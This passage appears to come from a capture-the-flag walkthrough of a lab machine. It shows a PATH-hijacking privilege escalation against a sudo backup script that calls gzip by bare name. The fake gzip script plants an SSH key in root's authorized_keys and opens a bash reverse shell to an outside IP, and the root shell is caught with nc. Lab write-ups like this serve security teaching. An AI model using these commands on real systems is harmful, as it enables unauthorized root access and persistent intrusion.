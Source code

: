     gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
    

The comment says they knows they shouldn’t be running this as root, but that
they need to fix the permissions later. That’s a directory that is owned by
and writable by root, which is why m4lwhere needs `sudo` to run it:

    
    
    m4lwhere@previse:~$ ls -ld /var/backups/
    drwxr-xr-x 2 root root 4096 Aug 16 07:42 /var/backups/
    

### Path Injection

The vulnerability in this script is that `gzip` is called without a complete
path. In `/dev/shm`, I’ll create a simple script called `gzip`. There are many
things I could do, including just calling `bash`, though I had some issues
getting that to work. I’ll have it write my public key into root’s
`authorized_keys` file and spawn a reverse shell:

    
    
    #!/bin/bash
    
    # enable root ssh
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
    
    # rev shell
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

Now I’ll set my path to start with `/dev/shm`:

    
    
    m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
    m4lwhere@previse:/dev/shm$ echo $PATH
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    

Now when the script goes to call `gzip`, the first one it will find is mine
and run it. I’ll start `nc` and run:

    
    
    m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
    

It hangs, but at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53814
    root@previse:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root)
    